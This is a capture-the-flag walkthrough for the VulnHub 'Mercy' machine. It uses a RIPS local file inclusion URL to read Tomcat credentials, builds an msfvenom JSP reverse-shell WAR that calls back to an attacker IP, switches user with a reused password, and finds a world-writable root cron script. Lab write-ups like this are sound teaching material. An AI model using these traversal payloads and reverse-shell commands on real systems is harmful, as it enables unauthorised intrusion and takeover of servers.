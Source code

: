 ## HTTP
On the website we can find *robots.txt* which shows us */mercy* and */nomercy*. At */nomercy* with find an install of RIPS 0.53, which searchsploit tells us has *Multiple Local File Inclusions*. 

It didn't take me long to figure out this was the way to find out Tomcat credentials:

``
http://192.168.1.169/nomercy/windows/code.php?file=../../../../../../etc/tomcat7/tomcat-users.xml
``

This was quite similar to Tabby from HTB. 

{% highlight xml %}
<role rolename="admin-gui"/>
<role rolename="manager-gui"/>
<user username="thisisasuperduperlonguser" password="heartbreakisinevitable" roles="admin-gui,manager-gui"/>
<user username="fluffy" password="freakishfluffybunny" roles="none"/>
{% endhighlight %}

So then we could login to Tomcat as *thisisasuperduperlonguser*. 

## Tomcat
With the Tomcat GUI we could upload a WAR file:

``
root@kali:/opt/vulnhub/mercy# msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.150 LPORT=1234 -f war > shell.war
``

And then we had a shell.

## Fluffy
Since we already had a password for Fluffy, we should try it:

{% highlight shell %}
uid=116(tomcat7) gid=126(tomcat7) groups=126(tomcat7)
python -c 'import pty;pty.spawn("/bin/bash");'
tomcat7@MERCY:/var/lib/tomcat7$ su fluffy
su fluffy
Password: freakishfluffybunny

$ python -c 'import pty;pty.spawn("/bin/bash");'
python -c 'import pty;pty.spawn("/bin/bash");'
fluffy@MERCY:/var/lib/tomcat7$ cd /home/fluffy
{% endhighlight %}

Once we're there we find a script which is running on a cron as root; that's not obvious. What is (or should be) obvious is that we can edit it:

{% highlight shell %}
fluffy@MERCY:~/.private/secrets$ ls -lash
ls -lash
total 20K
4.0K drwxr-xr-x 2 fluffy fluffy 4.0K Nov 20  2018 .
4.0K drwxr-xr-x 3 fluffy fluffy 4.0K Nov 20  2018 ..
4.0K -rwxr-xr-x 1 fluffy fluffy   37 Nov 20  2018 backup.save
4.0K -rw-r--r-- 1 fluffy fluffy   12 Nov 20  2018 .secrets
4.0K -rwxrwxrwx 1 root   root    222 Nov 20  2018 timeclock
{% endhighlight %}
